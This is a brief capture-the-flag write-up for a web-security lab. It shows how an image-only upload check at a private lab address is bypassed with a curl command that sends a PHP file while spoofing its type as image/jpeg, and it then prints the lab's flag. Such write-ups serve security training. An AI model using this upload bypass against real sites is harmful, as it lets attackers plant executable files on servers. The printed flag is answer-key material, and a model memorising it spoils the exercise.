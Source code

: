 **http://10.0.0.12/?page=upload**

The functionality here only accepts image files.
When anyother file such as a php file is uploaded, an error message is returned.

This can be circumnavigated with the help of the cURL terminal command.
_curl -F 'Upload=submit' -F 'uploaded=@thisfile.php;type=image/jpeg' http://10.0.0.12/?page=upload#_
The above command uploads a php file called thisfile.php to the page successfully.

After this has been done, a flag is returned.

**FLAG:
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8**

https://curl.se/mail/archive-2003-04/0135.html
https://ec.haxx.se/http/http-cheatsheet
